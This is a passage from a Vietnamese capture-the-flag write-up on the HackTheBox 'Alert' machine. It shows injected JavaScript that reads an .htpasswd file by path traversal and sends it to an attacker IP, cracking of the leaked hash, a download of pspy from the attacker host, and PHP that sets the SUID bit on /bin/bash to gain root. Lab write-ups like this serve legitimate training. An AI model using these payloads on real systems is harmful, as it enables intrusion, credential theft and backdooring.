var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?
file=../../../../../var/www/statistics.alert.htb/.htpasswd',
false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.5:3000/?content=' + btoa(req.responseText),
true);
req2.send();
```
### Làm tương tự và decode thu được
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ
</pre>

### Sử dụng hashcat để giải mật khẩu
```
hashcat -a 0 -m 1600 hash_file /usr/share/wordlists/rockyou.txt
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
</pre>
### Đăng nhập vào subdomain `statistics ` 
<p align="center"></p>

### SSH vào list port open
```
netstat -tunl
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
albert@alert:~$ netstat -tunl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*  
</pre>
### Forward port 8080

```
ssh albert@alert.htb -L 8081:127.0.0.1:8080
```
<p align="center"></p>

### Cài `pspy64s` theo dõi các tiến trình mà không cần quyền root
```
albert@alert:/tmp$ wget http://10.10.14.5:4000/pspy64s

albert@alert:/tmp$ chmod +x pspy64s
albert@alert:/tmp$ ./pspy64s
```
### Thấy có tiến trình `monitor.php`
Ở đây, chúng ta thấy `UID=0`, cho biết tác vụ đang chạy dưới dạng root. Khi xem nội dung, chúng ta cũng nhận thấy rằng tệp `configuration.php` nằm trong thư mục `include`, được bao gồm trong script.
```
CMD: UID=0 PID=32377 | /usr/bin/php -f /opt/website
```
```
include('config/configuration.php');
$monitors = json_decode(file_get_contents(PATH.'/monitors.json'));
foreach($monitors as $name => $url) {
$response_data = array();
$timestamp = time();
$response_data[$timestamp]['timestamp'] = $timestamp;
$curl = curl_init($url);
curl_setopt($curl, CURLOPT_URL, $url);
curl_setopt($curl, CURLOPT_HEADER, true);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
$response = curl_exec($curl);
<SNIP>
file_put_contents(PATH.'/monitors/'.$name, json_encode($data,
JSON_PRETTY_PRINT));
}
```
### Khi xem tệp `configuration.php`, chúng ta thấy rằng tệp này được quản lý bởi nhóm `management`, trong đó người dùng `albert` là thành viên.
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
albert@alert:/opt/website-monitor/config$ ls -la
total 12
drwxrwxr-x 2 root management 4096 Oct 12 04:17 .
drwxrwxr-x 7 root root 4096 Oct 12 01:07 ..
-rwxrwxr-x 1 root management 49 Nov 5 14:31 configuration.php
</pre>
### Chúng ta có thể chỉnh sửa tệp `configuration.php` và chèn mã `PHP` sau để cấp quyền `SUID` cho `/bin/bash`, cho phép chúng ta thực thi nó với quyền `root`:
```
<?php
system("chmod u+s /bin/bash");
?>
```
### Kiểm tra 
```
albert@alert:/opt/website-monitor/config$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash
```
### Leo thang
```
albert@alert:/opt/website-monitor/config$ /bin/bash -p
bash-5.0# whoami
root
```